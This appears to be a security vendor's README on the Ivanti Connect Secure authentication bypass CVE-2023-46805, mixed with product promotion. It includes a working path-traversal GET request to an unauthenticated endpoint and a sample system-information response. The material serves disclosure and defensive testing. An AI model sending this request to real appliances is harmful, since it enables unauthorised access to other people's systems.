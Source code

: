 # Ivanti CVE-2023-46805 PoC Exploit
CISA issued an emergency directive on Ivanti CVE-2023-46805 vulnerability. The agency also reported that CVE-2023-46805 pose unacceptable risks to many federal agencies and should be mitigated immediately.<br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2023-46805 vulnerability.

Test security controls against the CVE-2023-46805 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-46805 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [Ivanti CVE-2023-46805 and CVE-2024-21887 Zero-Day Vulnerabilities Actively Exploited](https://www.picussecurity.com/resource/blog/ivanti-cve-2023-46805-and-cve-2024-21887-zero-day-vulnerabilities)


CVE-2023-46805 Proof-of-concept (POC)
----------------------
Ivanti CVE-2023-46805 vulnerability is an authentication bypass vulnerability found in the web component of Ivanti Connect Secure and Policy Secure products.<br>
The vulnerability is caused by a path traversal vulnerability found in the "/api/v1/totp/user-backup-code" endpoint. Additionally, this endpoint does not require any authentication, allowing adversaries to access public-facing endpoints.<br>
Adversaries combine the lack of authentication and path traversal vulnerability to access resources located in the endpoint.

The example HTTP GET request below exploits CVE-2023-46805 vulnerability to view system information without authentication.

#### Example CVE-2023-46805 Exploit:
```http
GET /api/v1/totp/user-backup-code/../../system/system-information
HTTP/1.1 Host: <IP_Vulnerable_Ivanti_Product>
Content-Length: 0

//Response from the vulnerable product
…
    "system-information" : {
        "Cluster-node" : {},
        "Hardware-model" : "PSA-3000",
        "host-name" : <redacted>
        "machine-id" : <redacted>
        "os-name" : "ive-sa",
        "os-version" : "9.1R18.1",
        "serial-number": <redacted>
    ｝
…
```

Disclaimer
----------
We do not have any disclamer.
